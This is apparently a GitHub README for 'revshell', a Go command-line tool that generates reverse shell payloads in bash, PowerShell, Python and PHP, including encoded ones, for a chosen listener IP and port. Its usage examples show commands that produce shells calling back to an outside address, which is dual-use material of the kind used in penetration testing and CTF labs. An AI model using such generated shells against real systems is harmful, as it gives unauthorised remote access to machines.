

# revshell

A simplified yet exceptionally powerful reverse shell generator for your terminal.

## Installation

```bash
go install -v github.com/Gubarz/revshell@latest
```

## Usage

### Interactive Mode

The easiest way to generate a reverse shell is to use the interactive TUI. It will guide you through selecting a shell type, payload method, IP address, port, and shell configuration.

```bash
revshell generate
```



### Direct Shell Commands

For extremely fast, single-line executions, `revshell` bundles quick commands for common environments:

```bash
# Basic bash reverse shell
revshell bash

# PowerShell reverse shell with a specific listener
revshell powershell 10.10.14.20 9001

# Python reverse shell
revshell python 10.10.14.20 4444

# PHP reverse shell
revshell php 10.10.14.20

# Kitchen Sink sh script (*nix) - Creates multiple payload types as a shell script
revshell sink 10.10.14.20 9001
```

### Scriptable Custom Shells

For more control, use the `custom` command. It uses a clean, positional argument syntax and fully supports **intelligent tab-completion**. You can also mix and match positional arguments with traditional flags (`-t`, `-p`, `-e`, etc.)!

To enable tab completions in your current session:
```bash
source <(revshell completion bash) # For Bash
# source <(revshell completion zsh) # For Zsh
```

To install completions permanently (load on startup):
```bash
# Bash
revshell completion bash >> ~/.bashrc

# Zsh
# Zsh relies on a custom completions directory structure in your fpath
mkdir -p ~/.zsh_completions
revshell completion zsh > ~/.zsh_completions/_revshell
echo 'fpath=(~/.zsh_completions $fpath)' >> ~/.zshrc
echo 'autoload -U compinit; compinit' >> ~/.zshrc
```

```bash
# Syntax (positional)
revshell custom <type> [method] [ip] [port] [shell] [encoding]

# Generate a base64 encoded powershell payload
revshell custom powershell base64 10.10.14.20 4444 powershell base64

# Mix positional arguments with explicit flags to override specific settings
revshell custom python -p 8080 -e base64

# Use tab completion to effortlessly explore available payloads
# Example: type `revshell custom `, hit TAB, select `php`, space, hit TAB again!
revshell custom [TAB] [TAB] [TAB]
```

### Utility Commands

```bash
# Show system information (Identify your network interfaces & IP)
revshell info

# List available shell types
revshell list types

# List methods for a specific type
revshell list methods bash

# Create a sample config file
revshell config
```

### Configuration

You can create a configuration file (`~/.config/revshell/config`) to set permanent default values saving you typing:

```bash
revshell config
```

Configuration options:

- ip: Default IP address
- port: Default port (e.g., 9001)
- shell: Default shell (e.g., bash)
- encoding: Default encoding

## Contributing

Contributions are welcome! Please make a pull request.

## Credits

https://www.revshells.com / https://github.com/0dayCTF/reverse-shell-generator
